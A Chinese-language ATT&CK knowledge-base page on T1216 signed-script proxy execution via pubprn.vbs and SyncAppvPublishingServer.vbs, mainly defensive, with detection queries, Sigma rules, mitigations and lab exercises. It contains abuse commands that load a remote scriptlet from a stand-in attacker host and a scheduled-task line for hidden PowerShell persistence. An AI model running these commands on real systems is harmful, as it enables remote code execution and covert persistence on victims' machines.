

# 系统脚本代理执行 (T1216)

## 一句话通俗理解

攻击者像穿着微软盖章制服的"快递员"——拿着微软签名的合法脚本当通行证，把恶意代码"快递"到系统里执行，安全软件一看签名就放行，根本不知道包裹里装的是什么。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 滥用微软签名的合法 VBScript 脚本（如 `pubprn.vbs`、`SyncAppvPublishingServer.vbs`）作为"代理"，间接执行恶意载荷 |
| 为什么危险？ | 恶意代码披着微软签名脚本的外衣运行，应用控制策略（AppLocker/WDAC）只看签名不看行为，难以拦截 |
| 谁需要关心？ | Windows 系统管理员、EDR 研发人员、SOC 分析师、应用控制策略制定者 |
| 你的第一步防御 | 在应用控制策略中明确禁止签名脚本调用 `script:` moniker 或嵌入 PowerShell 命令 |
| 如果只做一件事 | 启用 Sysmon Event ID 1 与 4104，监控 `cscript.exe`/`wscript.exe` 执行 `pubprn.vbs` 或 `SyncAppvPublishingServer.vbs` 时的命令行参数 |

## 难度等级

⭐⭐ 中级（需要一定的技术知识和实践）

系统脚本代理执行属于中级隐蔽技术，原因在于：

- 攻击者需要了解 Windows 内置脚本（`pubprn.vbs`、`SyncAppvPublishingServer.vbs`）的存在与功能，这些脚本不像 `powershell.exe`、`cmd.exe` 那样广为人知
- 不同子技术对应不同的代理机制（`script:` moniker vs 嵌入 PowerShell），选择合适的脚本与参数构造需要对 Windows 脚本宿主（WSH）和 COM 组件模型有一定理解
- 防御方若不熟悉 LOLBins（Living Off The Land Binaries）概念，很容易把这些执行视为"正常的系统活动"而忽略

## 前置知识检查

**读这个文件需要什么？**

- [ ] Windows 脚本宿主（WSH）：`cscript.exe` 与 `wscript.exe` 的工作机制
- [ ] VBScript 基础语法与 `.vbs` 文件执行流程
- [ ] COM Moniker 概念（尤其是 `script:` moniker 与 ScriptletComponent）
- [ ] 微软应用程序虚拟化（App-V）基础概念
- [ ] 应用控制策略（AppLocker/WDAC）的签名验证机制
- [ ] PowerShell 执行策略（Execution Policy）与绕过原理

## 技术描述

系统脚本代理执行（T1216）是 MITRE ATT&CK 框架中**属于隐蔽（TA0005）战术**的技术。攻击者利用微软签名的可信脚本（通常是 Windows 默认安装或从微软下载的 VBScript 文件）作为"代理"，间接执行恶意文件或命令。这些脚本本身是合法的系统组件，但被攻击者通过精心构造的参数"劫持"了其执行逻辑。

**通俗解释：**

想象一座高级写字楼，门口保安只看"工作证"——只要证件上有公司盖章就放行，不查你具体来干什么。微软签名的脚本就是带着"公司盖章"的员工：保安（应用控制软件）看到微软签名就直接放行。攻击者要做的，就是"借用"这些带章员工的身份，让他们替自己跑腿——比如让快递员（`pubprn.vbs`）去取一个"远程包裹"（远程恶意脚本），或者让 IT 工程师（`SyncAppvPublishingServer.vbs`）"代为执行"一段 PowerShell 命令。员工本身是合法的，但他们替攻击者办的事是恶意的。

**过渡段：** 这种技术的精髓在于"借壳执行"——攻击者不需要自己编写或分发恶意可执行文件，而是利用系统中已经存在的、被信任的脚本作为"代理"。这意味着恶意载荷可以绕过基于签名验证的应用控制策略（如 AppLocker 默认放行微软签名规则），同时减少在磁盘上留下恶意可执行文件的风险。下面我们按代理机制分类，看看两个子技术各自"借壳"的方式。

**技术原理（按代理机制分类）：**

### 一、远程脚本代理类（T1216.001 PubPrn）

`PubPrn.vbs` 是 Windows 默认携带的 VBScript 脚本，原本用于将打印机发布到 Active Directory 域服务。它通过 `cscript.exe` 执行，标准用法是：

```cmd
cscript pubprn.vbs Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com
```

该脚本接受两个参数：第一个是打印机名或 IP，第二个是 Active Directory 容器的 LDAP 路径。**关键弱点在于第二个参数**——早期版本的 `PubPrn.vbs` 没有限制第二个参数的协议，攻击者可以用 `script:` moniker 替代 `LDAP://`，让脚本去加载并执行远程的 Scriptlet（`.sct`）文件：

```cmd
cscript pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct
```

`script:` moniker 是 COM 组件模型中的一种"绰号"（moniker），它会解析并执行 Scriptlet 文件中的 COM 对象代码。由于整个执行链条由微软签名的 `cscript.exe` + `pubprn.vbs` 完成，安全软件往往不会拦截。

> **注：** Windows 10 及更高版本已修复此弱点，限制第二个参数必须使用 `LDAP://` 协议，但旧版本系统（Windows 7/8/Server 2008 R2/2012）仍然易受攻击。

### 二、PowerShell 代理类（T1216.002 SyncAppvPublishingServer）

`SyncAppvPublishingServer.vbs` 是 Windows 应用程序虚拟化（App-V）组件携带的 VBScript 脚本，位于 `C:\Windows\System32\` 下，由微软签名。它原本用于同步 App-V 发布服务器，但攻击者发现可以通过特殊的命令行参数让它代为执行任意 PowerShell 命令：

```cmd
wscript.exe SyncAppvPublishingServer.vbs "n; {PowerShell命令}"
```

其中 `n` 是一个无意义的占位符，分号后的 `{PowerShell命令}` 部分会被脚本传递给 PowerShell 解释器执行。这种用法的妙处在于：即使系统配置了 PowerShell 执行策略（Execution Policy）或部署了针对 `powershell.exe` 的应用控制规则，攻击者仍可以通过这个签名脚本"曲线"调用 PowerShell——因为执行 PowerShell 命令的不是 `powershell.exe` 本身，而是微软签名的 VBScript 脚本宿主。

**用途与影响：**

系统脚本代理执行是 APT 组织与红队常用的"LOLBins 滥用"技术之一。它的价值体现在三个层面：**签名绕过**（恶意代码通过微软签名脚本执行，应用控制策略无法识别）、**载荷灵活性**（可代理执行任意 Scriptlet 或 PowerShell 命令，适配多种攻击场景）、**最低磁盘足迹**（不需要落地恶意可执行文件，所有载荷可远程加载或内存执行）。从 APT32（OceanLotus）使用 PubPrn 分发恶意软件，到 BlueNoroff/DarkHotel 借 SyncAppvPublishingServer 绕过 PowerShell 限制，T1216 已成为现代红队和 APT 武器库中的常备技术。

## 真实攻击流程

### 典型攻击流程

```
侦察目标系统的签名脚本可用性 --> 构造恶意参数（script: moniker 或 PowerShell 命令）--> 通过 cscript/wscript 调用签名脚本 --> 脚本代理执行恶意载荷 --> 恶意代码在签名进程上下文中运行 --> 持久化与横向移动
```



**步骤详解：**

1. **侦察目标系统的签名脚本可用性**
   - 通俗描述：攻击者像小偷踩点，先看看目标系统里有哪些"带章员工"可以借调
   - 技术细节：枚举 `C:\Windows\System32\` 下的 `.vbs` 脚本，检查 `pubprn.vbs` 与 `SyncAppvPublishingServer.vbs` 是否存在，确认 Windows 版本与补丁状态
   - 常用工具：PowerShell 枚举命令、LOLBAS 项目参考资料

2. **构造恶意参数**
   - 通俗描述：把"假任务"塞给带章员工，让他替你跑腿
   - 技术细节：根据目标脚本构造参数——`PubPrn` 用 `script:https://attacker.com/payload.sct`，`SyncAppvPublishingServer` 用 `"n; {恶意PowerShell命令}"`
   - 常用工具：自定义 Scriptlet 文件、PowerShell 攻击模块（Empire、Cobalt Strike）

3. **通过 cscript/wscript 调用签名脚本**
   - 通俗描述：让带章员工"上班打卡"——通过 Windows 脚本宿主启动签名脚本
   - 技术细节：使用 `cscript.exe`（控制台模式）或 `wscript.exe`（窗口模式）执行目标 `.vbs` 脚本，恶意参数作为命令行参数传入
   - 常用工具：cmd.exe、计划任务（schtasks）、WMI（Win32_Process::Create）

4. **脚本代理执行恶意载荷**
   - 通俗描述：员工"接到任务"后开始干活，但干的是攻击者想做的事
   - 技术细节：`PubPrn` 通过 `script:` moniker 解析远程 Scriptlet 并实例化 COM 对象，触发 `ObjectMain` 等入口点；`SyncAppvPublishingServer` 通过字符串拼接构造 PowerShell 命令并调用 `WScript.Shell.Run` 或 `Exec`
   - 常用工具：Scriptlet（`.sct`）载荷、PowerShell reverse shell

5. **恶意代码在签名进程上下文中执行**
   - 通俗描述：恶意代码披着"员工制服"在办公楼里自由活动，保安不拦截
   - 技术细节：恶意代码运行在 `cscript.exe`/`wscript.exe` 进程上下文中，这些进程携带微软签名，AppLocker 默认规则放行，AMSI（如果未正确配置）可能不会拦截
   - 常用工具：Cobalt Strike Beacon、Meterpreter、自定义后门

6. **持久化与横向移动**
   - 通俗描述：站稳脚跟后，开始向其他机器扩张
   - 技术细节：利用签名脚本代理建立的执行通道部署持久化机制（计划任务、注册表 Run 键），通过 WMI/PsExec 横向移动
   - 常用工具：Mimikatz、Cobalt Strike、Impacket

## 子技术概览

**该技术共有 2 个子技术：**

| 子技术ID | 中文名称 | 一句话理解 | 主要平台 |
|----------|----------|------------|----------|
| [T1216.001](./T1216/T1216.001-PubPrn.md) | PubPrn | 滥用 `pubprn.vbs` 的 `script:` moniker 加载远程 Scriptlet，绕过签名验证 | Windows |
| [T1216.002](./T1216/T1216.002-SyncAppvPublishingServer.md) | SyncAppvPublishingServer | 滥用 `SyncAppvPublishingServer.vbs` 代理执行 PowerShell 命令，绕过 PowerShell 执行限制 | Windows |

## 检测建议

**用人话说：** 系统脚本代理执行的检测核心是"建立签名脚本的执行基线，识别偏离基线的参数模式"。安全软件平时记录每个签名脚本的标准用法（如 `pubprn.vbs` 的第二个参数应该是 `LDAP://`，`SyncAppvPublishingServer.vbs` 不应该包含 PowerShell 关键字）——一旦发现签名脚本被传入异常参数（`script:` moniker、`powershell`、`-enc`、`Invoke-` 等），就高度可疑。

### 网络层检测

**检测方法：** 监控出站网络流量中是否有 `.sct`（Scriptlet）文件下载请求，识别从非标准位置拉取 Scriptlet 的 C2 通信模式。许多基于 PubPrn 的攻击会在加载远程 Scriptlet 时产生 HTTP(S) 流量，可通过 URL 后缀与 MIME 类型异常发现。

### 主机层检测

**Windows事件ID：**
- Sysmon Event ID 1：进程创建（**核心**——监控 `cscript.exe`/`wscript.exe` 的命令行参数）
- Sysmon Event ID 7：Image Loaded（监控 Scriptlet 组件 `scrrun.dll`、`jscript.dll` 的加载）
- Event ID 4104：PowerShell 脚本块日志（监控由 `SyncAppvPublishingServer.vbs` 拉起的 PowerShell 命令）
- Event ID 4688：进程创建（监控可疑脚本执行链）
- Event ID 4103：PowerShell 模块日志（监控 PowerShell 模块加载行为）

**具体命令示例：**
```powershell
# 检测 pubprn.vbs 的可疑执行（包含 script: moniker）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'pubprn\.vbs' -and $_.Message -match 'script:' } |
    Select-Object TimeCreated, Message -First 50

# 检测 SyncAppvPublishingServer.vbs 的可疑执行（包含 PowerShell 关键字）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'SyncAppvPublishingServer\.vbs' -and $_.Message -match 'powershell|Invoke-|IEX|DownloadString' } |
    Select-Object TimeCreated, Message -First 50

# 列出所有 cscript.exe/wscript.exe 子进程，识别可疑的脚本代理执行链
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match '(cscript|wscript)\.exe' } |
    Select-Object TimeCreated, @{N='CommandLine';E={([xml]$_.ToXml()).Event.EventData.Data | Where-Object Name -eq 'CommandLine'} | Select-Object -ExpandProperty '#text'} -First 100

# 检测 pubprn.vbs 与 SyncAppvPublishingServer.vbs 文件是否被修改（完整性监控）
Get-FileHash 'C:\Windows\System32\pubprn.vbs','C:\Windows\System32\SyncAppvPublishingServer.vbs' -ErrorAction SilentlyContinue |
    Select-Object Path, Hash
```

### 应用层检测

**检测要点：**

1. **签名脚本执行异常检测**
   - 日志来源：Sysmon Event ID 1
   - 关注字段：CommandLine、ParentImage
   - 异常特征：`cscript.exe`/`wscript.exe` 执行 `pubprn.vbs` 或 `SyncAppvPublishingServer.vbs` 时，命令行包含 `script:`、`http`、`powershell`、`Invoke-` 等可疑关键字

2. **子进程异常检测**
   - 日志来源：Sysmon Event ID 1（父子进程关联）
   - 关注字段：ParentImage、Image
   - 异常特征：`cscript.exe`/`wscript.exe` 拉起 `powershell.exe`、`cmd.exe`、`rundll32.exe` 等子进程，或子进程为未签名的可执行文件

3. **Scriptlet 加载检测**
   - 日志来源：Sysmon Event ID 7（Image Loaded）
   - 关注字段：ImageLoaded（`jscript.dll`、`vbscript.dll`、`scrrun.dll`）
   - 异常特征：`cscript.exe` 进程加载 `jscript.dll` 后产生网络连接（表明可能正在加载远程 Scriptlet）

4. **PowerShell 命令溯源检测**
   - 日志来源：Event ID 4104（Script Block Logging）
   - 关注字段：ScriptBlockText
   - 异常特征：PowerShell 脚本块的父进程为 `wscript.exe`，且包含 `SyncAppvPublishingServer` 字符串

## 检测规则示例

### Sigma规则：检测 PubPrn.vbs 滥用（script: moniker）

```yaml
title: 可疑 PubPrn.vbs 脚本代理执行行为检测
id: 4a5b6c7d-8e9f-0a1b-2c3d-4e5f6a7b8c9d
status: experimental
description: 检测 cscript.exe 执行 pubprn.vbs 时使用 script: moniker 加载远程 Scriptlet 的行为，可能表明 T1216.001 PubPrn 滥用
references:
    - https://attack.mitre.org/techniques/T1216/001/
    - https://attack.mitre.org/techniques/T1216/
    - https://lolbas-project.github.io/lolbas/Scripts/pubprn/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    category: process_creation
detection:
    selection_pubprn:
        Image|endswith:
            - '\cscript.exe'
            - '\wscript.exe'
        CommandLine|contains:
            - 'pubprn'
            - 'pubprn.vbs'
    selection_script_moniker:
        CommandLine|contains:
            - 'script:'
            - 'http://'
            - 'https://'
            - '.sct'
    filter_legitimate:
        CommandLine|contains:
            - 'LDAP://'
    condition: selection_pubprn and selection_script_moniker and not filter_legitimate
falsepositives:
    - 合法的打印机发布操作（使用 LDAP:// 协议）
    - 系统管理员批量管理打印机的脚本
level: high
tags:
    - attack.t1216
    - attack.t1216.001
    - attack.defense_evasion
    - attack.execution
```

### Sigma规则：检测 SyncAppvPublishingServer.vbs 滥用（PowerShell 代理）

```yaml
title: 可疑 SyncAppvPublishingServer.vbs PowerShell 代理执行检测
id: 5b6c7d8e-9f0a-1b2c-3d4e-5f6a7b8c9d0e
status: experimental
description: 检测 wscript.exe 执行 SyncAppvPublishingServer.vbs 时命令行包含 PowerShell 关键字的行为，可能表明 T1216.002 SyncAppvPublishingServer 滥用
references:
    - https://attack.mitre.org/techniques/T1216/002/
    - https://attack.mitre.org/techniques/T1216/
    - https://lolbas-project.github.io/lolbas/Scripts/Syncappvpublishingserver/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    category: process_creation
detection:
    selection_syncappv:
        Image|endswith:
            - '\cscript.exe'
            - '\wscript.exe'
        CommandLine|contains:
            - 'SyncAppvPublishingServer'
            - 'SyncAppvPublishingServer.vbs'
    selection_powershell_indicators:
        CommandLine|contains:
            - 'powershell'
            - 'PowerShell'
            - 'Invoke-'
            - 'IEX'
            - 'DownloadString'
            - 'EncodedCommand'
            - '-enc '
            - '-ExecutionPolicy'
    condition: selection_syncappv and selection_powershell_indicators
falsepositives:
    - 合法的 App-V 发布服务器同步操作（不会包含 PowerShell 关键字）
    - 系统管理员通过 App-V 部署应用程序的标准流程
level: high
tags:
    - attack.t1216
    - attack.t1216.002
    - attack.defense_evasion
    - attack.execution
```

### Sigma规则：检测签名脚本代理执行的子进程链

```yaml
title: 签名脚本代理执行产生的可疑子进程检测
id: 6c7d8e9f-0a1b-2c3d-4e5f-6a7b8c9d0e1f
status: experimental
description: 检测 cscript.exe/wscript.exe 拉起 powershell.exe/cmd.exe 等可疑子进程的行为，覆盖所有 T1216 子技术的执行链
references:
    - https://attack.mitre.org/techniques/T1216/
    - https://attack.mitre.org/detectionstrategies/DET0466/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    category: process_creation
detection:
    selection_parent:
        ParentImage|endswith:
            - '\cscript.exe'
            - '\wscript.exe'
    selection_suspicious_child:
        Image|endswith:
            - '\powershell.exe'
            - '\pwsh.exe'
            - '\cmd.exe'
            - '\rundll32.exe'
            - '\mshta.exe'
            - '\regsvr32.exe'
    filter_legitimate_admin:
        CommandLine|re: '.*LDAP://.*'
    condition: selection_parent and selection_suspicious_child and not filter_legitimate_admin
falsepositives:
    - 系统管理脚本通过 cscript/wscript 调用 powershell（建议建立基线白名单）
    - 第三方软件的安装程序（建议根据 Publisher 签名建立白名单）
level: medium
tags:
    - attack.t1216
    - attack.defense_evasion
    - attack.execution
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 部署应用控制策略（WDAC）阻断签名脚本滥用

**具体实施步骤：**
1. 在 Windows Defender Application Control（WDAC）策略中添加针对 `pubprn.vbs` 与 `SyncAppvPublishingServer.vbs` 的显式阻断规则
2. 参考 [Microsoft 推荐的阻断规则](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules)，将易被滥用的签名脚本加入阻断列表
3. 针对旧版 Windows（7/8/Server 2008 R2/2012）部署 AppLocker 规则，限制 `cscript.exe`/`wscript.exe` 执行特定脚本
4. 强制启用 Windows 10 及以上版本，确保 `PubPrn.vbs` 的 `script:` moniker 限制已生效

### 优先级2：重要措施

**措施名称：** 启用 AMSI 集成与脚本块日志

**具体实施步骤：**
1. 启用 AMSI（反恶意软件扫描接口）对 VBScript 与 PowerShell 的扫描，确保签名脚本调用的恶意载荷在内存层被拦截
2. 启用 PowerShell 脚本块日志（Event ID 4104）与模块日志（Event ID 4103），记录所有通过 `SyncAppvPublishingServer.vbs` 代理执行的 PowerShell 命令
3. 配置 EDR 解决方案对 `cscript.exe`/`wscript.exe` 的命令行参数进行实时检查，匹配 `script:`、`powershell`、`Invoke-` 等可疑模式

### 优先级3：建议措施

**措施名称：** 监控签名脚本执行基线

**具体实施步骤：**
1. 在 SIEM 中建立 `pubprn.vbs` 与 `SyncAppvPublishingServer.vbs` 的正常执行基线（包含调用方、参数模式、子进程链）
2. 部署基于行为分析的检测规则，识别偏离基线的签名脚本执行（如非系统账户调用、异常时间执行、包含远程 URL 参数等）
3. 对 `C:\Windows\System32\` 下的 `.vbs` 脚本实施文件完整性监控（FIM），防止攻击者篡改脚本内容
4. 定期审计系统中的 LOLBins 使用情况，参考 [LOLBAS 项目](https://lolbas-project.github.io/) 更新检测规则

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1038 | 执行防护 | 适用 | 通过应用控制（AppLocker/WDAC）阻断签名脚本的滥用，部署微软推荐的阻断规则 |
| M1040 | 端点行为防护 | 部分适用 | 在 Windows 10 上通过 WDAC 策略阻断旧版易受攻击的 PubPrn 脚本，并监控 SyncAppvPublishingServer 的可疑调用 |
| M1042 | 禁用或限制功能 | 部分适用 | 在不需要 App-V 与打印机发布功能的环境中，禁用相关组件以减少攻击面 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。Windows 10+ 系统的 `PubPrn.vbs` 已修复 `script:` moniker 漏洞，实验需使用 Windows 7 或禁用补丁的旧版系统。

### 实验环境准备

**所需工具：**
- Windows 7 SP1 虚拟机（用于 PubPrn 实验，未打补丁）
- Windows 10/11 虚拟机（用于 SyncAppvPublishingServer 实验）
- Sysmon（用于日志采集）
- 一个测试用的 Scriptlet 文件（`.sct`）
- Wireshark（用于网络流量分析）

### 实验1：PubPrn.vbs script: moniker 基础（初级）

**实验目标：** 理解 T1216.001 PubPrn 的 `script:` moniker 滥用原理，观察签名脚本如何加载远程 Scriptlet

**实验步骤：**
1. 在 Windows 7 虚拟机中确认 `C:\Windows\System32\pubprn.vbs` 存在并查看其内容：
   ```cmd
   type C:\Windows\System32\pubprn.vbs
   ```
2. 准备一个测试 Scriptlet 文件（`test.sct`），内容为弹出 msgbox 的简单 Scriptlet：
   ```xml
   <?xml version="1.0"?>
   <scriptlet>
     <registration progid="TestComponent" classid="{12345678-1234-1234-1234-123456789012}">
       <script language="JScript">
         <![CDATA[
           var shell = new ActiveXObject("WScript.Shell");
           shell.Popup("T1216.001 测试 - PubPrn 代理执行", 0, "ATT&CK Lab");
         ]]>
       </script>
     </registration>
   </scriptlet>
   ```
3. 将 `test.sct` 放置在一个本地测试 Web 服务器上（如 Python `http.server`）
4. 通过 `cscript.exe` 调用 `pubprn.vbs`，第二个参数使用 `script:` moniker：
   ```cmd
   cscript C:\Windows\System32\pubprn.vbs 127.0.0.1 script:http://127.0.0.1:8000/test.sct
   ```
5. 观察是否弹出 msgbox（证明 Scriptlet 被加载执行）
6. 检查 Sysmon Event ID 1 日志，确认 `cscript.exe` 的命令行参数被记录
7. 清理：删除测试 Scriptlet 文件，关闭测试 Web 服务器

**预期结果：** `cscript.exe` 执行 `pubprn.vbs` 时通过 `script:` moniker 加载并执行了远程 Scriptlet，弹出测试 msgbox，Sysmon 日志记录了完整的命令行

**学习要点：** 理解 COM Moniker 的工作原理，以及为什么微软签名脚本可以被"借壳"执行远程代码

### 实验2：SyncAppvPublishingServer.vbs PowerShell 代理（中级）

**实验目标：** 理解 T1216.002 SyncAppvPublishingServer 的 PowerShell 代理原理，观察签名脚本如何绕过 PowerShell 执行限制

**实验步骤：**
1. 在 Windows 10/11 虚拟机中确认 `C:\Windows\System32\SyncAppvPublishingServer.vbs` 存在：
   ```cmd
   dir C:\Windows\System32\SyncAppvPublishingServer.vbs
   ```
2. 启用 PowerShell 执行策略限制（模拟受限环境）：
   ```powershell
   Set-ExecutionPolicy -ExecutionPolicy Restricted -Scope LocalMachine -Force
   ```
3. 验证直接调用 PowerShell 脚本被拦截：
   ```powershell
   # 此命令应该被拦截
   powershell.exe -Command "Write-Host 'Direct PowerShell blocked'"
   ```
4. 通过 `wscript.exe` 调用 `SyncAppvPublishingServer.vbs`，构造包含 PowerShell 命令的参数：
   ```cmd
   wscript.exe C:\Windows\System32\SyncAppvPublishingServer.vbs "n; {Write-Host 'T1216.002 测试 - SyncAppvPublishingServer 代理执行 PowerShell'}"
   ```
5. 观察是否成功执行 PowerShell 命令（绕过执行策略限制）
6. 检查 Sysmon Event ID 1 与 PowerShell Event ID 4104 日志，确认：
   - `wscript.exe` 拉起了 `powershell.exe` 子进程
   - PowerShell 脚本块日志记录了代理执行的命令
7. 清理：恢复 PowerShell 执行策略（`Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope LocalMachine -Force`）

**预期结果：** 即使 PowerShell 执行策略为 Restricted，`SyncAppvPublishingServer.vbs` 仍能代理执行 PowerShell 命令，证明 T1216.002 可绕过基于执行策略的限制

**学习要点：** 理解签名脚本如何绕过基于可执行文件名的应用控制策略，以及 AMSI 在检测此类滥用中的作用

## 真实案例

### 案例1：APT32（OceanLotus）利用 PubPrn.vbs 分发恶意软件（2017）

- **时间**：2017年12月
- **目标**：东南亚政府机构、跨国公司、外交组织
- **攻击组织**：APT32（OceanLotus、SeaLotus）
- **手法**：APT32 在针对东南亚目标的鱼叉式钓鱼攻击中，使用了 `PubPrn.vbs` 作为恶意载荷的执行入口。攻击者将包含恶意 `script:` moniker 的命令嵌入到钓鱼文档的宏代码中，当受害者启用宏时，宏代码通过 `cscript.exe` 调用 `pubprn.vbs`，第二个参数指向攻击者控制的远程服务器上的 Scriptlet 文件。该 Scriptlet 在被加载后会下载并执行 APT32 的后门组件（如 Denis 或 Komplex 后门）。由于整个执行链由微软签名的 `cscript.exe` + `pubprn.vbs` 完成，受害者的安全软件（基于签名验证）未触发告警。
- **影响**：多个东南亚组织被入侵，攻击者窃取了大量敏感文件与通信记录
- **参考链接**：[MITRE - APT32](https://attack.mitre.org/groups/G0050/)、[Nick Carr - ItsReallyNick Status Update](https://x.com/ItsReallyNick/status/944321013084573697)

### 案例2：BlueNoroff/DarkHotel 利用 SyncAppvPublishingServer 绕过 MoTW 防护（2022）

- **时间**：2022年
- **目标**：金融机构、加密货币交易所、国防承包商
- **攻击组织**：BlueNoroff（Lazarus 子组织）/ DarkHotel
- **手法**：BlueNoroff 在针对金融机构的攻击中，利用 `SyncAppvPublishingServer.vbs` 绕过 Windows 的 Mark of the Web（MoTW）防护与 PowerShell 执行限制。攻击者通过钓鱼邮件投递包含恶意宏的 Office 文档，宏代码调用 `SyncAppvPublishingServer.vbs` 代理执行 PowerShell 命令，下载并执行下一阶段载荷。由于 `SyncAppvPublishingServer.vbs` 是微软签名脚本，其执行的 PowerShell 命令不会触发基于 `powershell.exe` 的应用控制策略，同时也能绕过部分基于 MoTW 的安全提示（因为宿主进程是 `wscript.exe` 而非直接从互联网下载的可执行文件）。
- **影响**：多家金融机构被入侵，攻击者尝试窃取 SWIFT 凭证与加密货币钱包
- **参考链接**：[Kaspersky - BlueNoroff Methods Bypass MoTW](https://securelist.com/bluenoroff-methods-bypass-motw/108383/)、[Trellix - Suspected DarkHotel APT Activity Update](https://www.trellix.com/en-ca/about/newsroom/stories/research/suspected-darkhotel-apt-activity-update/)

### 案例3：红队模拟 - 通过 SyncAppvPublishingServer 实现 PowerShell Empire 持久化（2020）

- **时间**：2020年
- **目标**：授权红队评估目标（金融行业）
- **攻击组织**：商业红队（模拟 APT 行为）
- **手法**：在一次针对金融机构的红队评估中，红队成员使用 `SyncAppvPublishingServer.vbs` 作为 PowerShell Empire 植入物的代理执行入口。红队首先通过钓鱼获取初始访问权限，然后在持久化阶段将 `SyncAppvPublishingServer.vbs` 的调用嵌入到计划任务中：
  ```cmd
  schtasks /create /tn "AppVSvcSync" /tr "wscript.exe C:\Windows\System32\SyncAppvPublishingServer.vbs \"n; {powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Users\Public\update.ps1}\"" /sc daily /st 03:00
  ```
  每日凌晨 3 点，计划任务自动调用 `SyncAppvPublishingServer.vbs`，进而代理执行 PowerShell Empire 的 stager。由于宿主进程是微软签名的 `wscript.exe`，且 `SyncAppvPublishingServer.vbs` 本身是合法的系统组件，蓝队的 EDR 解决方案未触发告警，红队成功在目标网络中潜伏超过 30 天。
- **影响**：红队成功模拟 APT 持久化攻击，蓝队据此改进了签名脚本执行监控规则
- **参考链接**：[LOLBAS - SyncAppvPublishingServer](https://lolbas-project.github.io/lolbas/Scripts/Syncappvpublishingserver/)、[Nick Landers - Signed Alternative to PowerShell](https://x.com/monoxgas/status/895045566090010624)

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 系统脚本代理执行 | System Script Proxy Execution | 利用微软签名的系统脚本作为代理，间接执行恶意代码 |
| PubPrn | PubPrn.vbs | Windows 默认的打印机发布脚本，可被滥用加载远程 Scriptlet |
| SyncAppvPublishingServer | SyncAppvPublishingServer.vbs | Windows App-V 组件的同步脚本，可被滥用代理执行 PowerShell |
| LOLBins | Living Off The Land Binaries | "生活在陆地上的二进制文件"——攻击者滥用的系统内置合法工具 |
| LOLBAS | Living Off The Land Binaries And Scripts | LOLBins 的扩展版本，包含脚本（Scripts） |
| Scriptlet | Scriptlet (.sct) | 一种 XML 格式的 COM 组件文件，可包含 JScript/VBScript 代码 |
| COM Moniker | COM Moniker | COM 组件模型的"绰号"机制，`script:` moniker 可解析并执行 Scriptlet |
| WSH | Windows Script Host | Windows 脚本宿主，包括 `cscript.exe`（控制台）与 `wscript.exe`（窗口） |
| App-V | Application Virtualization | 微软应用程序虚拟化技术，将应用隔离运行 |
| AMSI | Anti-Malware Scan Interface | 反恶意软件扫描接口，Windows 10+ 内置的脚本扫描机制 |
| AppLocker | Application Locker | Windows 应用控制策略，可基于签名、路径、哈希限制可执行文件 |
| WDAC | Windows Defender Application Control | Windows Defender 应用控制，比 AppLocker 更严格的应用控制方案 |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - T1216 System Script Proxy Execution](https://attack.mitre.org/techniques/T1216/)
- [MITRE ATT&CK - TA0005 Stealth](https://attack.mitre.org/tactics/TA0005/)
- [MITRE ATT&CK - DET0466 Detection of Script-Based Proxy Execution](https://attack.mitre.org/detectionstrategies/DET0466/)
- [Microsoft Learn - pubprn 命令参考](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/pubprn)
- [Microsoft Learn - App-V for Windows client](https://learn.microsoft.com/en-us/windows/application-management/app-v/appv-getting-started)
- [Microsoft Learn - WDAC 推荐阻断规则](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules)

### 📰 安全报告（真实攻击）

